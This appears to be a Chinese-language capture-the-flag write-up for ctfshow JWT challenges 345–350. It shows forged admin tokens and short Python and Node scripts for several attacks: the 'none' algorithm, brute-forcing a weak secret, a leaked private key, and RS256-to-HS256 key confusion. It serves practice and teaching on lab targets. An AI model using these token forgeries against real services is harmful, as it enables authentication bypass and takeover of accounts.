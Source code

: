 ```yaml
---
title: ctfshow-jwt
date: 2021-08-25 6:40:33
author: Na0H
headimg: /img/atimg/jwt.png
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow jwt
description:  ctfshow jwt

---
```


<!-- more -->

jwt解密：[JSON Web Tokens - jwt.io](https://jwt.io/)
[JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)



## 345

提升/admin

抓包得到
`auth=eyJhbGciOiJOb25lIiwidHlwIjoiand0In0.W3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2Mjk4MzkxNzcsImV4cCI6MTYyOTg0NjM3NywibmJmIjoxNjI5ODM5MTc3LCJzdWIiOiJ1c2VyIiwianRpIjoiNWU2YmJjZjFhZWVmYmUzMmY2ZDY1OGNhNjhjZTFmYzUifV0`
[JSON Web Tokens - jwt.io](https://jwt.io/)解密一下，或者base64都可以

![](https://i.loli.net/2021/08/25/nP4Yr6st2HJ7ekV.png)

可以看到none，没有加密，也就不存在签名，用base64加密一下直接传cookie就好了

```
eyJhbGciOiJOb25lIiwidHlwIjoiand0In0AW3siaXNzIjoiYWRtaW4iLCJpYXQiOjE2Mjk4NDAzOTksImV4cCI6MTYyOTg0NzU5OSwibmJmIjoxNjI5ODQwMzk5LCJzdWIiOiJhZG1pbiIsImp0aSI6ImE4NDQxMjFkYjRlYTZhNTY0ZDYwZTg1MDBiODU0ZDg3In1d
```

再访问/admin/就拿到flag了

## 346

![](https://i.loli.net/2021/08/25/IDdjWcAeZyPxJHo.png)

看群主方法是secret为弱口令123456，再将user改为admin

还有就是用python将jwt加密算法改为none，user改为admin

> [JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)
>
> 签名算法可以确保JWT在传输过程中不会被恶意用户所篡改。
>
> 但头部中的alg字段却可以改为none。
>
> 另外，一些JWT库也支持none算法，即不使用签名算法。当alg字段为空时，后端将不执行签名验证。
>
> 将alg字段改为none后，系统就会从JWT中删除相应的签名数据（这时，JWT就会只含有头部 + ‘.’ + 有效载荷 + ‘.’），然后将其提交给服务器。

```python
import base64
def jwtBase64Encode(x):
    return base64.b64encode(x.encode('utf-8')).decode().replace('+', '-').replace('/', '_').replace('=', '')
header = '{"alg":"none","typ":"JWT"}'
payload = '{"iss":"admin","iat":1629840556,"exp":1629847756,"nbf":1629840556,"sub":"admin","jti":"837101c2606dc36952678bce4166379f"} '

print(jwtBase64Encode(header)+'.'+jwtBase64Encode(payload)+'.')
```

## 347

还是弱口令，也可以用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)来将jwt密钥爆破出来
还是123456

![](https://i.loli.net/2021/08/25/8Vz1E6gYWs4jFlI.png)



## 348

爆破，这次用[c-jwt-cracker](https://github.com/brendan-rius/c-jwt-cracker)：
![](https://i.loli.net/2021/08/25/nXZmP8zy3Ul671I.png)得到密钥aaab
然后丢到[JSON Web Tokens - jwt.io](https://jwt.io/)处理一下即可
![](https://i.loli.net/2021/08/25/dPCkoiBG2hbVRwE.png)

## 349

给了一个app.js

```javascript
/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var privateKey = fs.readFileSync(process.cwd()+'//public//private.key');
  var token = jwt.sign({ user: 'user' }, privateKey, { algorithm: 'RS256' });
  res.cookie('auth',token);
  res.end('where is flag?');
  
});

router.post('/',function(req,res,next){
	var flag="flag_here";
	res.type('html');
	var auth = req.cookies.auth;
	var cert = fs.readFileSync(process.cwd()+'//public/public.key');  // get public key
	jwt.verify(auth, cert, function(err, decoded) {
	  if(decoded.user==='admin'){
	  	res.end(flag);
	  }else{
	  	res.end('you are not admin');
	  }
	});
});
```

可以看到是密钥泄漏，可以访问/private.key和/public.key获得私钥和公钥
然后在[JSON Web Tokens - jwt.io](https://jwt.io/)修改即可

![](https://i.loli.net/2021/08/25/bfFKED4WC9lGgLs.png)

修改jwt后post方式访问就可以得到flag

![](https://i.loli.net/2021/08/25/kcPMeTrj4pCiUQB.png)



## 350

给了源码，可以在其中获得公钥public.key

```
-----CTFSHOW 36D BOY -----
MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDfdIGdsPuxSGPuosgarjZ7zO4t
HHmQ7+6WUiKBA0ykcXe6aK9zcVVKCcEwyMbENgTF4Et8RjZ3NKs1Co74Q+4gII5G
IgQFSS0PzTOKmoTY1fnA6+jqBquV4RnU283kgdaKmkaSRdiwsW2EaagMgZdG6WJk
65RmH98bgnIAGW5nawIDAQAB
-----END PUBLIC KEY-----
```

> [JSON Web Token (JWT) 攻击技巧 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/2338)
>
> HS256算法使用密钥为所有消息进行签名和验证。
>
> 而RS256算法则使用私钥对消息进行签名并使用公钥进行身份验证。
>
> 如果将算法从RS256改为HS256，则后端代码将使用公钥作为密钥，然后使用HS256算法验证签名。
>
> 由于攻击者有时可以获取公钥，因此，攻击者可以将头部中的算法修改为HS256，然后使用RSA公钥对数据进行签名。
>
> 这样的话，后端代码使用RSA公钥+HS256算法进行签名验证。

一开始想用python的（要安装pyjwt模块）

```python
import jwt
payload = {
  "user": "admin",
  "iat": 1629843927
}
public = open('C:\\Users\\11634\\Desktop\\public.key', 'r').read()
# print(public)
info = jwt.encode(payload, key=public, algorithm='HS256')
print(info)

```

但是发现生成的payload会报错：Cannot read property 'user' of undefined
看了羽师傅的博客猜测是jwt版本上不太对应，还是用羽师傅的node脚本：

jwt库要用题目给的源码中的，就是要保证版本一致。
把脚本文件和public.key都丢到源码文件夹里运行即可

```apl
const jwt = require('jsonwebtoken');
var fs = require('fs');
var privateKey = fs.readFileSync('public.key');
var token = jwt.sign({ user: 'admin' }, privateKey, { algorithm: 'HS256' });
console.log(token)
```

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4iLCJpYXQiOjE2Mjk4NDQ1Njl9.fsSZJ7uaowtF4NP64WBTPunft-PuQykWdYa4iTup0KI
```

还是post传即可得到flag